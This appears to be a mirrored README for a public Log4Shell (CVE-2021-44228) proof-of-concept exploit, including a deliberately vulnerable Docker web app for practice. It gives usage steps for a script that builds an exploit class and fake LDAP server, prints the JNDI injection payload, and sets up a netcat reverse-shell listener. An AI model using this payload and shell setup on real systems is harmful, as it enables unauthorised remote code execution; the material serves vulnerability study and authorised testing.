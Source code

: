 # log4j-shell-poc

A Proof-Of-Concept for the CVE-2021-44228 vulnerability. 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kozmer](https://github.com/kozmer) |
| Url      | [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)                                               |
| Stars    | 1598                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-44228* java* log4j* security

</details>

## Readme

# log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.




## Get the content

```
git clone https://github.com/kozmer/log4j-shell-poc
cd log4j-shell-poc
```

{% embed url="https://github.com/kozmer/log4j-shell-poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/87979263?v=4" alt=""><figcaption><p>kozmer</p></figcaption></figure>
